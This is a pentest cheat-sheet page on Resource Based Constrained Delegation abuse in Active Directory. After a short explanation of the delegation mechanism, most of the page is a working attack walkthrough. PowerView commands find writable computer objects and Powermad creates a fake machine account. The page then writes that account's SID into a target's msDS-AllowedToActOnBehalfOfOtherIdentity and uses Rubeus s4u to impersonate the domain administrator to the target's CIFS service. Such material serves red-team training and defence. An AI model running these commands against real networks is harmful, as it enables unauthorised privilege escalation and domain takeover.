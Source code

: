 # Resource Based Constrained Delegation \(RBCD\)

## Resource Based Constrained Delegation \(RBCD\)

RBCD needs to happen from a computer account or a service account with a SPN.  
  
Attack can be done if a frontend service has a SID configured into the msDS- AllowedToActOnBehalfOfOtherIdentity property backend service.  
  
  
**msDSAllowedToActOnBehalfOfOtherIdentity** property controls delegation from the backend service  
  
To turn RBCD on, we need to write the SID frontend into a new propriety of the backend service.  
  
 → SeEnableDelegationPrivilege permissions are not required  
 → RBCD can typically be configured by the backend service administrator instead  
 → the frontend service must have an SPN set in the domain &gt; Computer Account  
  
  
S4U2Self forwardable TGS for any user to itself followed by S4U2Proxy to create a TGS for that user to the backend service.  
  
The KDC checks if the SID of the frontend service is present in the msDS-AllowedToActOnBehalfOfOtherIdentity property of the backend service.

### **Attack Path** 

* Compromise a domain account which have genericwrite on a computer account object.
* Add a new computer machine and force a password on it  \(user can add up to 10 computers by default\)

{% hint style="warning" %}
GenericAll, WriteProperty, GenericWrite or WriteDACL can be used to add change the SID on a computer object
{% endhint %}

Constrained Delegation Requirements :  
  
- Constrained Delegation = SPN on the frontend service \(msDSAllowedToDelegateTo propriety\)  
- SeEnableDelegationPrivilege priv

### Enumeration

#### Find GenericWrite access on a Computer Object

```csharp
 Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../../.gitbook/assets/image%20%28105%29.png)

#### Computer Domain Join 

```csharp
 Get-DomainObject -Identity badcorp.local  -Properties ms-DS-MachineAccountQuota
```

![](../../../../.gitbook/assets/image%20%28142%29.png)

### Create a new machine account

#### Load powermad

```text
New-MachineAccount -MachineAccount fakeComputer -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

![](../../../../.gitbook/assets/image%20%28293%29.png)

![](../../../../.gitbook/assets/image%20%285%29.png)

msDS-AllowedToActOnBehalfOfOtherIdentity property stores the SID as part of a security descriptor in a binary format which needs to be converted.

```csharp
$sid =Get-DomainComputer -Identity fakeComputer1 -Properties objectsid | Select -Expand objectsid
```

![](../../../../.gitbook/assets/image%20%28213%29.png)

* Instantiate a SecurityDescriptor object using RawSecurityDescriptor Class:

```csharp
$SecDesc = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
```

![](../../../../.gitbook/assets/image%20%28102%29.png)

* convert it into a byte array to match the format for the msDS-AllowedToActOnBehalfOfOtherIdentity property:

```csharp
$sdFormat = New-Object byte[] ($SecDesc.BinaryLength)
$SecDesc.GetBinaryForm($sdFormat,0)
```

#### Abuse GenericWrite on the target server

```csharp
 Get-DomainComputer -Identity targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$sdFormat}
 $RBCD  = Get-DomainComputer targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
 $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCD, 0
 $Descriptor.DiscretionaryAcl
```

![](../../../../.gitbook/assets/image%20%28118%29.png)

### Get a TGS using the fakeComputer account

#### Rubeus

```csharp
.\Rubeus.exe hash /password:Password123
.\Rubeus.exe s4u /user:fakeComputer /rc4:58A478135A93AC3BF058A5EA0E8FDB71  /impersonateuser:administrator /msdsspn:CIFS/targetServer.test.lab.local /ptt
```

![](../../../../.gitbook/assets/image%20%28246%29.png)

### Resources

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/GhostPack/Rubeus" %}







